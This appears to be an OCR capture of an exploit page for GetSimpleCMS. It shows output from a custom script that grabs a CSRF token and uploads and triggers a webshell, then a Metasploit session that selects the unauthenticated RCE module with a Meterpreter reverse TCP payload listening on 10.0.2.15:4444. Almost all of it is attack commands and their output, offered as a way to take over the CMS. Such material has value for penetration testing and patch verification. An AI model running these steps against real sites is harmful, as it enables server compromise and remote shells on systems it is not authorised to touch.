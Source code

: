 ```
[+] csrf token obtained
[+] Shell uploaded successfully!
[+] Webshell trigged successfully!
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

Or the Metasploit module:
```
msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec

msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before



View the full module info with the info, or info -d command.

```